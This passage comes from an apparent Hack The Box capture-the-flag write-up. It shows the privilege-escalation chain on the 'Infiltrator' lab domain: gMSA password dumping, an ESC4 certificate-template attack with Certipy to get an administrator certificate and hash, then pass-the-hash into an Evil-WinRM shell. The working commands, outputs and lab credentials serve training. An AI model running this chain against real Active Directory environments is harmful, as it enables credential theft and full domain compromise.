The user `LAN_MANAGEMENT@INFILTRATOR.HTB` had the permission `ReadGMSAPassword` set on `INFILTRATOR_SVC$@INFILTRATOR.HTB`.


With the tool `gMSADumper` we were able to extract the `hash` of `infiltrator_svc$`.

- [https://github.com/micahvandeusen/gMSADumper](https://github.com/micahvandeusen/gMSADumper)

```c
┌──(kali㉿kali)-[~/opt/10_post_exploitation/gMSADumper]
└─$ impacket-getTGT infiltrator.htb/lan_managment:'l@n_M@an!1331'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Saving ticket in lan_managment.ccache
```

```c
┌──(kali㉿kali)-[~/opt/10_post_exploitation/gMSADumper]
└─$ export KRB5CCNAME=lan_managment.ccache
```

```c
┌──(kali㉿kali)-[~/opt/10_post_exploitation/gMSADumper]
└─$ python3 gMSADumper.py -k -d 'infiltrator.htb' -l 'dc01.infiltrator.htb'  
Users or groups who can read password for infiltrator_svc$:
 > lan_managment
infiltrator_svc$:::52dfec373c144cb8d50334cb73934612
infiltrator_svc$:aes256-cts-hmac-sha1-96:ff9abf4c80c0c6a64b72a566169a2c17d28b37d72534f97b964449d76628e11b
infiltrator_svc$:aes128-cts-hmac-sha1-96:bcc830aa58603a0079878facd347e2af
```

| Username         | Hash                             |
| ---------------- | -------------------------------- |
| infiltrator_svc$ | 52dfec373c144cb8d50334cb73934612 |

```c
┌──(kali㉿kali)-[~]
└─$ netexec ldap dc01.infiltrator.htb -u 'infiltrator_svc$' -H 52dfec373c144cb8d50334cb73934612
SMB         10.129.254.28   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
LDAP        10.129.254.28   389    DC01             [+] infiltrator.htb\infiltrator_svc$:52dfec373c144cb8d50334cb73934612
```

## Privilege Escalation to SYSTEM

### Active Directory Certificate Services (ADCS)

Now we finally arrived at the last step and started enumerating from the beginning with the newly found `hash` of `infiltrator_svc$` using `NetExec`. The `adcs` module for `Active Directory Certificate Services (ADCS)` showed an active `Certificate Authority` called `infiltrator-DC01-CA`. We actually noticed that in the beginning of the box and saved the information for later.

```c
┌──(kali㉿kali)-[~]
└─$ netexec ldap dc01.infiltrator.htb -u 'infiltrator_svc$' -H 52dfec373c144cb8d50334cb73934612 -M adcs
SMB         10.129.254.28   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
LDAP        10.129.254.28   389    DC01             [+] infiltrator.htb\infiltrator_svc$:52dfec373c144cb8d50334cb73934612 
ADCS        10.129.254.28   389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.254.28   389    DC01             Found PKI Enrollment Server: dc01.infiltrator.htb
ADCS        10.129.254.28   389    DC01             Found CN: infiltrator-DC01-CA
```

With `Certipy` we started looking for `vulnerable templates` and found `ESC4` on the `Infiltrator_Template`.

- [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

```c
$ certipy-ad find -dc-ip 10.129.254.28 -u 'infiltrator_svc$' -hashes 52dfec373c144cb8d50334cb73934612 -vulnerable -stdout        
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'infiltrator-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'infiltrator-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'infiltrator-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'infiltrator-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : infiltrator-DC01-CA
    DNS Name                            : dc01.infiltrator.htb
    Certificate Subject                 : CN=infiltrator-DC01-CA, DC=infiltrator, DC=htb
    Certificate Serial Number           : 724BCC4E21EA6681495514E0FD8A5149
    Certificate Validity Start          : 2023-12-08 01:42:38+00:00
    Certificate Validity End            : 2124-08-04 18:55:57+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : INFILTRATOR.HTB\Administrators
      Access Rights
        ManageCertificates              : INFILTRATOR.HTB\Administrators
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
        ManageCa                        : INFILTRATOR.HTB\Administrators
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
        Enroll                          : INFILTRATOR.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : Infiltrator_Template
    Display Name                        : Infiltrator_Template
    Certificate Authorities             : infiltrator-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          PendAllRequests
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Smart Card Logon
                                          Server Authentication
                                          KDC Authentication
                                          Client Authentication
    Requires Manager Approval           : True
    Requires Key Archival               : False
    Authorized Signatures Required      : 1
    Validity Period                     : 99 years
    Renewal Period                      : 650430 hours
    Minimum RSA Key Length              : 2048
    Permissions
      Object Control Permissions
        Owner                           : INFILTRATOR.HTB\Local System
        Full Control Principals         : INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
                                          INFILTRATOR.HTB\Local System
        Write Owner Principals          : INFILTRATOR.HTB\infiltrator_svc
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
                                          INFILTRATOR.HTB\Local System
        Write Dacl Principals           : INFILTRATOR.HTB\infiltrator_svc
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
                                          INFILTRATOR.HTB\Local System
        Write Property Principals       : INFILTRATOR.HTB\infiltrator_svc
                                          INFILTRATOR.HTB\Domain Admins
                                          INFILTRATOR.HTB\Enterprise Admins
                                          INFILTRATOR.HTB\Local System
    [!] Vulnerabilities
      ESC4                              : 'INFILTRATOR.HTB\\infiltrator_svc' has dangerous permissions
```

- [https://posts.specterops.io/certified-pre-owned-d95910965cd2?gi=4113d535282f](https://posts.specterops.io/certified-pre-owned-d95910965cd2?gi=4113d535282f)
- [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)

Then we followed along the steps to abuse `ESC4` and to request a `.pfx` file for the `administrator` on `DC01.INFILTRATOR.HTB`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ certipy-ad template -username 'infiltrator_svc$@infiltrator.htb' -hashes 52dfec373c144cb8d50334cb73934612 -template 'Infiltrator_Template' -save-old
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'Infiltrator_Template' to 'Infiltrator_Template.json'
[*] Updating certificate template 'Infiltrator_Template'
[*] Successfully updated 'Infiltrator_Template'
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ certipy-ad template -username 'infiltrator_svc$@infiltrator.htb' -hashes 52dfec373c144cb8d50334cb73934612 -target-ip 10.129.254.28 -template 'Infiltrator_Template'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'Infiltrator_Template'
[*] Successfully updated 'Infiltrator_Template'
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ certipy-ad req -ca 'infiltrator-DC01-CA' -username 'infiltrator_svc$@infiltrator.htb' -hashes 52dfec373c144cb8d50334cb73934612 -target 'dc01.infiltrator.htb' -template 'Infiltrator_Template' -upn administrator@infiltrator.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with UPN 'administrator@infiltrator.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

After the successful authentication using the `.pfx` file we exported the `Kerberos Ticket` and verified access.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.254.28       
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@infiltrator.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@infiltrator.htb': aad3b435b51404eeaad3b435b51404ee:1356f502d2764368302ff0369b1121a1
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ export KRB5CCNAME=administrator.ccache
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ netexec ldap 10.129.254.28 -u administrator -H 1356f502d2764368302ff0369b1121a1
SMB         10.129.254.28   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
LDAP        10.129.254.28   389    DC01             [+] infiltrator.htb\administrator:1356f502d2764368302ff0369b1121a1 (Pwn3d!)
```

For convenience reasons we suggest using `Pass-The-Hash` on `Evil-WinRM`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ evil-winrm -i infiltrator.htb -u administrator -H 1356f502d2764368302ff0369b1121a1
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
